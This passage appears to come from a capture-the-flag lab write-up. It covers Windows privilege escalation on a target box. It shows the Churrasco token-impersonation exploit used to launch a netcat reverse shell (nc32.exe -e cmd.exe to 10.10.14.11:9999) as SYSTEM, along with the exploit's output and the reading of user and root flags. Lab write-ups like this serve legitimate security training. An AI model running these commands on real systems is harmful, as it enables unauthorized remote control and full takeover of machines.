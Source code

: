 *   I had to run it multiple times because it disconnected after a certain amount of time

```
C:\wmpub>.\bad.exe -d "C:\wmpub\nc32.exe -e cmd.exe 10.10.14.11 9999"             
.\bad.exe -d "C:\wmpub\nc32.exe -e cmd.exe 10.10.14.11 9999"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 680 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

##### Get user flag:

```
C:\WINDOWS\TEMP>type "C:\Documents and Settings\Harry\Desktop\user.txt"
type "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5_i_dont_want_to_get_in_trouble

```

### Root:

##### Get root flag:

```
C:\WINDOWS\TEMP>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e_i_dont_want_to_get_in_trouble
C:\WINDOWS\TEMP>
```

FIN. 🥳